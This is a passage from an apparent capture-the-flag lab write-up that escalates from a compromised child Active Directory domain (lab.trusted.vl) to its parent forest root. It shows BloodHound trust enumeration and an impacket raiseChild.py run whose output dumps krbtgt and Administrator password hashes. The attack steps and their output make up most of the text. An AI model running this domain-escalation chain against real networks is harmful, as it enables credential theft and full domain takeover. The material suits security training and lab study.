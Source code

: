 ```powershell
```

## Compromising Domain trusted.vl
At this point we have compromised the `lab.trusted.vl` Domain. Now we want to compromise the other domain `trusted.vl`. 
For that we use `bloodhound` to enumerate the connection between the domains:

**Troubleshooting** To make all the tools work, remember to set up `dnschef-ng` and `/etc/hosts` as described earlier in the write-up.

Run `bloodhound-python` to gather information
```bash
bloodhound-python -u $(<user) -p $(<pass) -d lab.trusted.vl -dc labdc.lab.trusted.vl -ns 127.0.0.1 -c all --zip

WARNING: Could not find a global catalog server, assuming the primary DC has this role
If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
INFO: Getting TGT for user
INFO: Connecting to LDAP server: labdc.lab.trusted.vl
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 1 computers
[...]
```

Bloodhound, using the `Analysis->Map Domain Trust` shows that `trusted.vl` trusts `labdc.lab.trusted.vl`:
![Domain Trust](/images/vulnlab_trusted/bloodhound_trust.png)


This means that we can take over the domain via the `impacket` function `raiseChild.py`:


```bash {hl_lines=[15]}
raiseChild.py lab.trusted.vl/$(<user):$(<pass)
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Raising child domain lab.trusted.vl
[*] Forest FQDN is: trusted.vl
[*] Raising lab.trusted.vl to trusted.vl
[*] trusted.vl Enterprise Admin SID is: S-1-5-21-3576695518-347000760-3731839591-519
[*] Getting credentials for lab.trusted.vl
lab.trusted.vl/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c7a03c565c68c6fac5f8913fab576ebd:::
lab.trusted.vl/krbtgt:aes256-cts-hmac-sha1-96s:c930ddb15c3f84aafa01e816abc1112e38430b574ae3fcdd019e77bc906494aa
[*] Getting credentials for trusted.vl
trusted.vl/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d9436aebee2db5c6e4166d5e2472fa2d:::
trusted.vl/krbtgt:aes256-cts-hmac-sha1-96s:3e5bc8a7d01388cdaf4ab8541f4e360d4fd9089723cedfd08f8016b7900ba2bf
[*] Target User account name is Administrator
trusted.vl/Administrator:500:aad3b435b51404eeaad3b435b51404ee:15db914be1e6a896e7692f608a9d72ef:::
trusted.vl/Administrator:aes256-cts-hmac-sha1-96s:d75ec7df1acac724a6dfc250e707aab3492b6d9936b9898f742781b0a871d4a6
```
